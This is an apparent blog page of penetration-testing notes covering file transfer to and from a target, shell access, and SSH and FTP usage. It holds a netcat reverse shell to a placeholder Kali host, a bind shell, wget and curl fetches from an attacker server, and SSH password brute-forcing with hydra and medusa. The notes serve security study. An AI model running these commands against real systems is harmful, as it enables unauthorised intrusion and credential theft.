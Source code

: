 ```yaml
---
title: "Network Penetration Testing Fundamental 2"
tags:
    - Enumeration
    - Dorks
    - Wireshark
date: "2024-08-01"
thumbnail: "/assets/img/thumbnail/networkbasics.jpeg"
bookmark: true
---
```

# Description
---
# File Transfer (Linux)
1. Netcat
From target to my machine
In my machine:
```bash
nc -nvlp 8082 > backup
```
In the target:
```bash
nc [ip my machine] 8082 < /usr/local/bin/backup
```
From my machine to target
In the target:
```bash
nc -nvlp 8082 > backup
```
In my machine:
```bash
nc [ip my machine] 8082 < /usr/local/bin/backup
```
2. Wget
From my machine to target
In my machine:
```bash
python3 -m http.server port
```
In the target:
```bash
wget http://my_ip:port/test.py
```
3. Curl
From my machine to target
In my machine:
```bash
python3 -m http.server port
```
In the target:
```bash
curl http://my_ip:port/test.py -o test.py
```
4. Base64
From my machine to target
In my machine:
```bash
cat ‘file.zip' | base64
```
In the target:
```bash
cat base64.txt | base64 -d > file.zip
```
# Shells
1. Reverse Shell
Basic Reverse Shell
    Start listener on Kali
```bash
nc -lvnp 9000
```
    Send reverse shell from victim back to Kali
```bash
nc KALI_IP 9000 -e /bin/sh
```
2. Bind Shell
Basic Bind Shell
    Start bind shell on victim machine
```bash
nc -lvnp 9000 -e /bin/sh
```
    Connect to bind shell from Kali
```bash
nc -nv VICTIM_IP 9000
```
3. Web Shell
Depend on:
    Language
    Server
On Kali:
```bash
/usr/share/webshells
```
# Network Services
SSH (Secure Shell)
1. Basic Usage (login)
```bash
ssh username@10.10.10.10
```
2. Generating a Key Pair
```bash
ssh-keygen
```
3. Key-based Login
```bash
ssh -i keyfile username@10.10.10.10
```
4. Password Cracking
```bash
    crackmapexec ssh 10.10.10.10 -u small_user.txt -p pass.txt
    medusa -h 10.10.10.10 -U small_user.txt -P pass.txt -M ssh
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
```
FTP (File Transfer Protocol)
1. Basic Usage (login)
```bash
ftp 10.10.10.10
```
2. Commands
```bash
ftp> ls
ftp> cd foldername
ftp> get filename
ftp> put filename
```
3. Using Binary Mode to Avoid Uploading Corrupted Files
```bash
ftp> binary
```
4. Default Credentials
    `Username: Anonymous`
    `Password: ftp`
---